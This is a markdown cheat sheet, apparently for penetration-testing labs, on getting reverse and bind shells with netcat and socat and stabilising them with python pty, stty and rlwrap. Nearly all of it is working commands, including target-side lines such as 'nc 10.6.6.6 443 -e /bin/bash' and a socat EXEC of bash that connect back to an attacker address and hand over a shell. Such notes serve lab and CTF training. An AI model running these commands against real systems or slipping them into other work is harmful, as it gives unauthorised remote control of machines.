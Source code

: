 # Reverse Shell Basic Examples

```
# attackBox = local attacking machine
# targetBox = remote target machine

# Example configuration
attackBox IP address = 10.6.6.6
targetBox IP address = 192.168.8.8
```
**Reverse shells**
- The attackBox starts a listener for incoming connections.   
- The targetBox executes code to connect back to the attackBox IP address and listening port giving shell access to the target.

**Bind shells**  
- The targetBox executes code to start a listener attached to a shell.  
- The attackBox connects to targetBox IP addressand listening port gaining shell access.
- Bind shells may be prevented by firewalls.

## Netcat
If netcat is not installed
```sh
sudo apt install netcat
```
### Netcat Basic Usage

1. `attackBox:~$ _` start listener on port 443   
   - *Listener ports below 1024 will require sudo*

```sh
sudo nc -lvnp 443
```  
About command syntax
```text
`-l` (listen)  
`-v` (give more verbose output)  
`-n` (do not use DNS hostname lookup)  
`-p` (specify port number)  
```

2. `targetBox:~$ _`
```sh
nc 10.6.6.6 443 -e /bin/bash
```
If connection is successful a result should be displayed on `attackBox` (similar to)  
```sh
connect to [10.6.6.6] from (UNKNOWN) [192.168.8.8] 55123
```
`attackBox:~$ _` `CTRL-C` to terminate the connection.


### Netcat Advanced Usage
*Improve usability and shell stabilisation*
#### Python method

1. `attackBox:~$ _`
```sh
sudo nc -lvnp 443
```  
2. `targetBox:~$ _`
```sh
sudo nc 10.6.6.6 443 -e /bin/bash
```  
Upon successful connection  
3. `attackBox:~$ _`
```sh
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```  
4. `attackBox~$ _` `CTRL-Z` to suspend the current foreground process 
5. `attackBox~$ _`
```sh
stty raw -echo; fg
```  
***You should now have full remote shell access to `targetBox`***
   
*Upon shell disconnection there will be no terminal output.  
`attackBox~$ _` `reset` to reset the terminal settings

#### rlwrap method

If rlwrap is not installed
```sh
sudo apt install rlwrap`
```
1. `attackBox:~$ _`
```sh
sudo rlwrap nc -lvnp 443
```  
2. `targetBox:~$ _`
```sh
sudo nc 10.6.6.6 443 -e /bin/bash
```  
Upon successful connection  
3. `attackBox~$ _` `CTRL-Z` to suspend the current foreground process   
4. `attackBox~$ _`
```sh
stty raw -echo; fg
```  

## socat
*Requires socat on both attack and target boxes.*
```sh
sudo apt install socat
```

#### Basic Usage
1. `attackBox:~$ _`
```sh
socat TCP-L:443 -
```  
2. `targetBox:~$ _`
```sh
sudo socat TCP:10.6.6.6:443 EXEC:"bash -li"
```  

#### Advanced Usage
1. `attackBox:~$`
```console
sudo socat TCP-L:443 FILE:`tty`,raw,echo=0
```
2. `targetBox:~$_`
```console
socat TCP:10.6.6.6:443 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

## Resources and References  
- [TryHackMe intro to shells](https://tryhackme.com/room/introtoshells)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
